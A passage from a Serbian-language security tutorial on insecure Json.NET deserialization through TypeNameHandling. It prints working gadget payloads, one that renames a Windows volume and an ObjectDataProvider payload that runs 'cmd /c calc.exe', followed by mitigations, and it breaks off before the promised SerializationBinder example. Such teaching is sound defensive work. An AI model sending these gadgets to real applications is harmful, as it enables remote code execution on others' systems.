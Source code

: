 #### Menjanje naziva Windows particije
Ovaj napad zahteva da je aplikacija pokrenuta sa administratorskim privilegijama. Navedeni kod menja naziv d particije u "changed volume".
```
{
   "$type": "System.IO.DriveInfo, System.IO.FileSystem.DriveInfo", 
   "driveName": "d",
   "VolumeLabel": "changed volume"
}
```

#### Izvršavanje komande
Navedeni JSON string će pokrenuti kalkulator na računaru na kome aplikacija radi. Ovaj tip komande će raditi samo na .NET Framework ili .NET Core WPF aplikacijama.
```
{
  "$type": "System.Windows.Data.ObjectDataProvider,    PresentationFramework",
  "MethodName": "Start",
  "MethodParameters": {
    "$type": "System.Collections.ArrayList, mscorlib",
    "$values": [ "cmd", "/c calc.exe" ]
  },
  "ObjectInstance": {
   "$type": "System.Diagnostics.Process, System"
  }
}
```

### Mitigacije

#### Postaviti TypeNameHandling na None 
Korišćenjem podrazumevane **None** vrednosti **TypeNameHandling** podešavanja je jedina vrednost ovog podešavanja koja je imuna na napad. Kada je ovo podešavanje aktivno, napadač ne može da kaže biblioteci koji u tip bi poslati JSON trebalo deserializovati.

#### Koristiti tačan tip koji se deserializuje
Ukoliko se zna da se primljeni JSON deserializuje u neki specifični tip, postaviti taj tip u pozivu metode za deserializaciju. Pravilno konfigurisan kod za deserializaciju izgleda ovako:

```
var deserialized = JsonConvert.DeserializeObject<User>(json, new JsonSerializerSettings()
{
     TypeNameHandling = TypeNameHandling.None
});
```
U ovom primer, User je tip objekta koji se očekuje u primljenom JSON-u., dok **TypeNameHandling.None** naznačava da ne treba čitati "$type" polje prilikom deserializacije. 

#### Validacija primljenih podataka

Ukoliko je potrebno koristiti neku vrednost **TypeNameHandling** polja osim **None**, pristigle podatke trebalo bi validirati korišćenjem **SerializationBinder**-a. U nastavku je primer klase koja implementira logiku za proveru pristiglog tipa. 
